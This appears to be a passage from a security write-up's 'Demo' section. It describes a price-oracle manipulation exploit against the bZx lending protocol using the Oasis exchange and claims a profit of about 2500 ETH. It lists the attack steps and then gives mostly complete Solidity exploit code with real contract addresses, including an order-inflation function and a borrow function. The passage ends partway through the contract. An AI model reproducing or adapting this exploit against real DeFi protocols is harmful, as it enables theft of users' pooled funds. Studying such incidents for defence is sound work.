 #### Demo

The following script will turn a profit of approximately 2500ETH by:

  1. Listing an order buying 1 DAI for 10 ETH, increasing the price from 0.006ETH/DAI to 9.98ETH/DAI.
  2. Borrowing ETH from bZx using DAI as collateral
  3. Cancelling all orders and converting all assets to ETH

    
    
    contract BZxOasisExploit is Script, Constants, TokenHelper, BZxHelpers {
        BZxLoanTokenV2Like private constant BZX_ETH = BZxLoanTokenV2Like(0x77f973FCaF871459aa58cd81881Ce453759281bC);
        
        uint constant private INITIAL_BALANCE = 250 ether;
        
        function setup() public {
            name("bzx-oasis-exploit");
            blockNumber(8455720);
        }
        
        function run() public {
            begin("exploit")
                .withBalance(INITIAL_BALANCE)
                .first(this.checkRates)
                .then(this.makeOrder)
                .then(this.checkRates)
                .then(this.borrow)
                .then(this.cleanup)
                .finally(this.checkProfits);
        }
        
        uint constant rateCheckAmount = 1 ether;
        
        function checkRates() external {
            (uint rate, uint slippage) = KYBER_NETWORK.getExpectedRate(DAI, KYBER_ETH, rateCheckAmount);
            printf("checking rates tokens=%.18u rate=%.18u slippage=%.18u\n", abi.encode(rateCheckAmount, rate, slippage));
        }
        
        uint private id;
        
        uint constant daiBidAmount = 1 ether;
        uint constant ethOfferAmount = 10 ether;
        function makeOrder() external {
            WETH.deposit.value(ethOfferAmount)();
            WETH.approve(address(MATCHING_MARKET), ethOfferAmount);
            id = MATCHING_MARKET.offer(ethOfferAmount, WETH, daiBidAmount, DAI);
            printf("made order id=%u\n", abi.encode(id));
            
            require(MATCHING_MARKET.insert(id, 0));
        }
        
        function borrow() external {
            bytes32 hash = doBorrow(BZX_ETH, false, BZX_ETH.marketLiquidity(), WETH, DAI);
            printf("borrowing loanHash=%32x\n", abi.encode(hash));
        }
        